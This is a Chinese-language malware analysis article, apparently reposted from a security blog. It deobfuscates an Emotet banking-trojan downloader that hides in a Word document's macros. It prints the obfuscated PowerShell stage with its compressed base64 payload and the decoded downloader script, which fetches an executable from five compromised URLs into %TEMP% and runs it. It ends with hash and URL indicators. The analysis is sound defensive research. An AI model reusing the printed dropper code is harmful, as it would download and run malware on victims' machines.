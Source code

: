 > 原文链接: https://www.anquanke.com//post/id/148751 


# 深入剖析一个经修改后的Emotet银行木马下载器


                                阅读量   
                                **100571**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t012e16607b1d239f7d.png)](https://p1.ssl.qhimg.com/t012e16607b1d239f7d.png)

你可能还记得我写过一篇文章，在文中我拆解了一个[Emotet Downloader](https://0ffset.wordpress.com/2018/03/17/post-0x04-analysis-of-an-emotet-downloader/)，它使用宏和Powershell命令从受感染的网站下载Emotet。现在，他们已经修改了他们的下载器的工作方式，幸运的是它已经上传到[VirusBay](https://beta.virusbay.io/)。所以让我们分析一下它吧！

MD5散列：53ea2608f0e34e3e746801977b778305

正如你可以在下图中看到的（左边的旧的样本，右边的是新的样本），这两个文档中存在相似之处，它们都假装在使用旧版本的Microsoft Office创建文档时出现错误，为了查看它，你需要点击“启用内容（Enable Content）”。看起来是合法的，所以让我们看看当我们点击“启用内容”时会运行什么。

[![](https://p4.ssl.qhimg.com/t018ea50dd0c8b71345.png)](https://p4.ssl.qhimg.com/t018ea50dd0c8b71345.png)

当我们打开宏部分时，你会注意到有两个宏，其中包含多个函数/子例程。首先要查看的是autoopen()或auto_open()，因为这是在点击“启用内容”时执行的内容。

[![](https://p5.ssl.qhimg.com/t01ff76a75b46383be7.png)](https://p5.ssl.qhimg.com/t01ff76a75b46383be7.png)

你还可能会注意到对Sqr()的调用，它会计算一个数字的平方根并将其返回，但我们很快就能得到它。首先，让我们把这些宏提取到一个文本文件中，这样我们就可以更容易地处理它。[![](https://p0.ssl.qhimg.com/t01f656ca3c515da93f.png)](https://p0.ssl.qhimg.com/t01f656ca3c515da93f.png)由于纯文本滴管（dropper）和下载器（downloader）因包含垃圾代码而臭名昭着，所以每当声明一个变量时，我都会检查它是否存在于宏中的其他任何地方。On Error Resume Nex表示文档中存在垃圾代码，因为它的基本意思是“如果有错误，忽略它并继续”。我首先检查了 Hirfd 和  MLiDY是否存在于包含宏的文件中，但它们并不是。一旦我们忽略了垃圾代码并添加了一些注释，我们就会得到以下结果：

[![](https://p4.ssl.qhimg.com/t01e9858a8c6a01980d.png)](https://p4.ssl.qhimg.com/t01e9858a8c6a01980d.png) 这样看来，autoopen()只负责执行第一个宏中的函数vwncz()。

[![](https://p0.ssl.qhimg.com/t012d2d4062b54f438e.png)](https://p0.ssl.qhimg.com/t012d2d4062b54f438e.png) 所以从它的外观来看，这个函数中的垃圾代码似乎包含  CStr ()，就像  autoopen()一样，所以一旦我们删除了这些行，我们就得到了： [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01343da927df7f7d22.png)

我们可以知道这些（wHjAK()、rDRYBhb() …）值是函数，因为如果我们将它们与第二个宏进行交叉引用，你会看到它们被声明为函数。所以现在我们知道第二个宏的目的是什么——形成字符串。 Shell()出现在字符串的起始处，它能够在机器上执行文件。第一个参数中的第一个字母是“ C ”，所以我们可以猜测这与  cmd有关。最后的  0从用户隐藏计划——它基本上是vbHide，但它的数值。现在我们完全去混淆了第一个宏，我们可以进入下一个宏。

[![](https://p3.ssl.qhimg.com/t01def3c87f4753b592.png)](https://p3.ssl.qhimg.com/t01def3c87f4753b592.png) 如果你在第一个宏中查看shell执行的字符串，你会注意到wHjAK()是第一个被调用的字符串  ，所以我们先从它开始。将这两个文件进行比较，你可以看到它们都有  CStr，所以我们现在可以假定其中任何带有CStr的字符串都是垃圾代码。在移除所有带有CStr的字符串后，我们得到了以下内容： [![](https://p3.ssl.qhimg.com/t01e8aea5c1397c8c2a.png)](https://p3.ssl.qhimg.com/t01e8aea5c1397c8c2a.png)

从它的外观来看，由于  wHjAK是一个函数，它将返回一个值，最终的字符串存储在  wHjAK中。因此，通过将所有的字符串相加我们可以得到最终的输出。并不需要手动完成，只需启动一个Python解释器并将代码粘贴到其中——没有  End Function和以上所有的On Error Resume Next。通过这样做，我们所要做的就是输入  print wHjAK来获得最终的字符串。

[![](https://p5.ssl.qhimg.com/t016f9de225639f6623.png)](https://p5.ssl.qhimg.com/t016f9de225639f6623.png)

虽然很难猜出这个命令在没有其他命令的情况下做了什么，但可以说这部分是声明了不同的变量，以及执行一个隐藏的命令提示符——%^c^o^m^S^p^E^c^%。 基本上指向命令提示符的路径。所以现在我们可以把函数缩小成这样：

[![](https://p5.ssl.qhimg.com/t01ea6a289fce9e490a.png)](https://p5.ssl.qhimg.com/t01ea6a289fce9e490a.png)

在每个函数中都可以看到这个垃圾代码“pattern”，因此对于第三个函数，当我们删除所有的CStr字符串并将其传递给Python解释器时，我们得到如下结果：

[![](https://p1.ssl.qhimg.com/t010cdf04457d29c347.png)](https://p1.ssl.qhimg.com/t010cdf04457d29c347.png)

这样，现在函数2和3看起来像这样：

[![](https://p0.ssl.qhimg.com/t011a9516be531a91c4.png)](https://p0.ssl.qhimg.com/t011a9516be531a91c4.png)

虽然我们可以为剩余的函数都做到这一点，但是为什么要浪费时间呢？一个简单的Python脚本可以删除带有CStr的所有字符串，并将剩余行写入文件：

[![](https://p2.ssl.qhimg.com/t01c3f7a9a4115ae7c2.png)](https://p2.ssl.qhimg.com/t01c3f7a9a4115ae7c2.png)

[![](https://p4.ssl.qhimg.com/t01c3f7a9a4115ae7c2.png)](https://p4.ssl.qhimg.com/t01c3f7a9a4115ae7c2.png)

当我们在第二个宏文件上运行这个脚本时，我们可以提取所有不包含CStr的字符串。但是，这是一个问题，因为那样我们会在文件中得到不必要的行，例如  On Error Resume Next，所以我们可以将If 语句更改为如下所示：

if “CStr” not in lines and “End” not in lines and “Error” not in lines and “Function_” not in lines:

这将只留给我们变量。所以现在我们可以将所有重要的行写入一个文件，但是我们仍然需要自己形成最终的字符串。我们再把它自动化一些怎么样？首先，我们需要找到函数名，因为我们需要print它们。一旦我们有了包含最终字符串的函数，我们可以将数据写入另一个文件——这次是一个  Python文件，我们可以执行它来获取完整的字符串。新文件将找到完整的字符串并将其写入到另一个文件中，这样我们就可以将其读入主程序的内存中，并将其存储在一个变量中。如果这没有意义，你可以在这里找到完整的脚本——它是一个打印输出最终解码字符串的完整脚本。如果你不想剧透，那么你可以在最后才看它。

无论如何，在运行我们的脚本时，它构成了最终的字符串，我们将它作为shell命令：

[![](https://p2.ssl.qhimg.com/t01ec85b3ebfbc16524.png)](https://p2.ssl.qhimg.com/t01ec85b3ebfbc16524.png)

所以，首先命令是设置全局变量，然后执行一个base64编码的字符串。解码base64字符串后，我们得到如下输出：

[![](https://p1.ssl.qhimg.com/t01b5746c35ae5e6f1d.png)](https://p1.ssl.qhimg.com/t01b5746c35ae5e6f1d.png)

乍一看，它看起来像shellcode，但事实并非如此。每个x00在空字节后面都包含一个字母。如果我们删除所有空字节，则生成的脚本为：

[![](https://p5.ssl.qhimg.com/t01f359aa73a681743b.png)](https://p5.ssl.qhimg.com/t01f359aa73a681743b.png)

我们可以确认这实际上是一个Powershell脚本，但是它在哪里被调用？如果我们回到原始命令并分析所设置的变量，你可以在文件的末尾看到这个：

```
!%izXfwddfGKP%!!%vqJRNrOQqvMv%!!%BOuDbApmqzScN%!!%voYPuLNXjn%!!%MUtvjfFlzFFsL%!!%HEYjHOmzK%! -e
```

如果我们将这个特定字符串中的每个变量解析为声明的内容，这就是我们得到的结果：

```
!%izXfwddfGKP%! = !%fuqGUmOvI%! = p

!%vqJRNrOQqvMv%! = !%KXEhPKfZWWmaJ%! = o^w

!%BOuDbApmqzScN%! = e^r

!%voYPuLNXjn%! = s

!%MUtvjfFlzFFsL%! = he

!%HEYjHOmzK%! = ll

!%izXfwddfGKP%! !%vqJRNrOQqvMv%! !%BOuDbApmqzScN%! !%voYPuLNXjn%! !%MUtvjfFlzFFsL%! !%HEYjHOmzK%! = po^we^rshell = powershell
```

通过使用变量声明，这个下载器能够形成字符串“powershell”并执行一个编码的字符串。所以现在回到我们找到的powershell脚本。

```
( neW-ObJect io.compRessION.DEfLatEstreAm([IO.MEMORystream][SySTEm.CONvErT]::fRoMBASE64stRiNg( 'VZDtS8MwEMb/lXwodEOXOF/RImzOijpfJvVlG4Jk6Wni2qQkV9s69r8b3RT8cnB3v+ce7gn06Lz4vCTHREPVMbN3EEgs16nJoyC9HX2c3v3fJY1DyOkNIH2C2SBToDEKqpOLGD0YSsTiiDGeQ11TN2fT/cvJlPXW46qqqOSpspkq8xItOOSld0MqTM66DUoxHP7REniGspCNU8J9E5SXrNjqD+KHfxdz7synyrimSr8aNulfdfvyj3DzJgOegv05wW7PD5pdvc1CmhSZwlbYC9tR8Hgx7t8n/oFglQfVUGOru0n2D7s7ex7Qw0E8Kb8B0B9HPoGCbJDwOfT1V+x7CjWE0auxwIVsBdU4nt0Rpckqn/YCbbNYp0pPTaUzw9MzlcEapfcmQav0W6u9SdaW7ShBbrEzskaAc7/jaOY95tFScBRyUVmF0JHGIQleaFwLKFAZTa+9gr9BtFx+AQ=='), [iO.cOmpREssIOn.COMPrESsioNmODe]::DeCOMpReSs) | %`{` neW-ObJect sYStEm.iO.StrEaMReADER( $_,[SYstEM.tExt.eNcOdInG]::AsCII) `}` ).rEadtOeND()|&amp;((VAriABle '*mdr*').NAMe[3,11,2]-jOin'')
```

你会注意到此脚本中嵌入一个了Base64字符串，它是使用[System.Convert]::FromBase64String从Base64转换而来  。问题是，当我们尝试使用Base64解码字符串时，它给我们提供了一个乱码。[![](https://p4.ssl.qhimg.com/t015ad3a20987279c5b.png)](https://p4.ssl.qhimg.com/t015ad3a20987279c5b.png)

原因是它被压缩。为了解压缩它，我们可以使用一个名为zlib的Python模块  。使用  zlib.decompress()，我们可以将压缩数据作为参数传递，并获得解压值，即：

[![](https://p0.ssl.qhimg.com/t01456064155f8ada5f.png)](https://p0.ssl.qhimg.com/t01456064155f8ada5f.png)如果你已经阅读了最后一篇Emotet文章，你应该能够识别出下载脚本，当我们为每一个“;”添加一个新行时，都会形成这样的脚本：

```
$nPHpzJ = new-object random;
$dOPvDQ = new-object System.Net.WebClient;$wBIEt = 'http://amexx.sk/Z6JYZ/@http://www.hadirliumutrestaurant.com/1ythcKK/@http://healthphysics.com.au/p0ACEU/@http://www.masozilan.info/YAL1Ah/@http://skyleaders.com/OH7y4n2/'.Split);
$VIXATS = $nPHpzJ.next(1, 69135);
$nKCEYu = $env:temp + '' + $VIXATS + '.exe';
for each ($wXEbQ in $wBIEt) `{`
    try `{`
        $dOPvDQ.DownloadFile($wXEbQ.ToString(), $nKCEYu);
        Start-Process $nKCEYu;
        break;
    `}`
    catch `{`
        write-host $_.Exception.Message;
    `}`
`}`
```

简而言之，该脚本通过选取一个介于1和69135之间的随机数来创建一个随机文件名，然后将其以.exe的形式存储在％TEMP％目录中  。一个for循环启动，它遍历存储在$dOPvDQ中的每个URL。然后该脚本尝试从该站点下载文件，并将其存储在％TEMP％目录中。该文件将使用Start-Process执行  。在检查了所有站点是否会下载一个文件之后，我得出的结论是，网站所有者（因为这些网站是合法的，只是被妥协了）已经删除了在其web服务器上托管的Emotet可执行文件。



## 总结

## IOCs

Hashes （MD5）：

文档： 53ea2608f0e34e3e746801977b778305

宏1： a7f490aaab202c5fd38c136371009685

宏2： 1bed5b9266f5497e258638eca7344963

网址：

[hxxp://amexx.sk/Z6JYZ/](hxxp://amexx.sk/Z6JYZ/)

[hxxp://www.hadirliumutrestaurant.com/1ythcKK/](hxxp://www.hadirliumutrestaurant.com/1ythcKK/)

[hxxp://healthphysics.com.au/p0ACEU/](hxxp://healthphysics.com.au/p0ACEU/)

[hxxp://www.masozilan.info/YAL1Ah/](hxxp://www.masozilan.info/YAL1Ah/)

[hxxp://skyleaders.com/OH7y4n2/](hxxp://skyleaders.com/OH7y4n2/)



审核人：yiwang   编辑：边边

